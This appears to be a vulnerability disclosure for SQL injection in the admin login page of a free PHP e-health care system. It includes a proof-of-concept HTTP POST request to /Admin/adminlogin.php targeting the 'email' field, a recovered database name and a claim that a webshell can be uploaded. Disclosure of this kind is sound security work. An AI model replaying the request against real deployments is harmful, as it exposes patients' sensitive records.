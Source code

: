 ## E-Health Care System IN PHP adminlogin.php has SQL injection vulnerability

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
/Admin/adminlogin.php
## describe
There are unrestricted SQL injection attacks in e-health systems. The following parameters can be controlled: email. The function executes the email parameter into a SQL statement without any restrictions. A malicious attacker can exploit this vulnerability to obtain sensitive information in the server database. You can also get server permissions.
## code analysis
The email parameter in adminlogin.php is controlled and carried directly into the SQL statement, resulting in SQL injection, and the webshell file can be uploaded through the vulnerability

![image-20241102014411171](https://github.com/user-attachments/assets/ce6f45fd-b8eb-48c1-a43a-6785463e98b0)

Injection via parameter $_POST['email']
POC

```
POST /Admin/adminlogin.php HTTP/1.1
Host: healthcare
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://healthcare
Connection: close
Referer: http://healthcare/Admin/adminlogin.php
Cookie: PHPSESSID=8v23podkjmaquido0cb9ctil38
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=1%40qq.com&admin_pswd=1234&submit=login
```

Get the database name: healthcare

![image-20241102014621429](https://github.com/user-attachments/assets/bb774572-1bbe-4c39-a49e-1e0ba809ee6e)

Discover

西安电子科技大学 李腾，谢亚轩

